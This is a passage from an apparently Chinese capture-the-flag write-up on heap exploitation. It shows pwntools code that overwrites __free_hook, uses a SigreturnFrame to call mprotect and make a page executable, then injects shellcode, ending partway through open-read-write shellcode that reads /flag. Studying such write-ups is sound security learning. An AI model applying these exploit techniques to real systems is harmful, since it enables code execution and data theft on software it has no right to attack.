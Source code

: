 	new_addr =  free_hook &0xFFFFFFFFFFFFF000
	shellcode1 = '''
	xor rdi,rdi
	mov rsi,%d
	mov edx,0x1000

	mov eax,0
	syscall

	jmp rsi
	''' % new_addr
	edit(6, 'a'*0x10+p64(set_context+53)+p64(free_hook+0x18)*2+asm(shellcode1))

 
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/61bf594dbee4483f94beaf7afa376c9d.png)



修改前
![在这里插入图片描述](https://img-blog.csdnimg.cn/59681f7ab0f64f57a185cacaffcb4ca2.png)
修改后
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/6bbe06a1c4ab4168a5bcf210118afc78.png)

### SROP
我们利用pwntools里的SigreturnFrame()执行mprotect(new_addr,0x1000,7)，并将rsp跳转到
 free_hook+0x10处，即0x00007f05935487c0，之后执行0x00007f05935487c0地址处的代码，即我们刚才写入的shellcode1，执行read(0, new_addr,0x1000)，将我们构造的第二个shellcode写入0x00007f0593548000处 ，并将rip跳转到我们写的第二个shellcode处执行。
 
	frame = SigreturnFrame()
	frame.rsp = free_hook+0x10
	frame.rdi = new_addr
	frame.rsi = 0x1000
	frame.rdx = 7
	frame.rip = libc.sym['mprotect']
	edit(12, str(frame))
	free(12)
![在这里插入图片描述](https://img-blog.csdnimg.cn/0211f5b1b2cb415b910461947216e62e.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/96861fc257104349a4a906803ad96103.png)


### ORW
利用orw构造shellcode，发送过去并执行，获得shell

	shellcode2 = '''
	mov rax, 0x67616c662f ;// /flag
	push rax

	mov rdi, rsp ;// /flag
	mov rsi, 0 ;// O_RDONLY
	xor rdx, rdx ;
	mov rax, 2 ;// SYS_open
	syscall
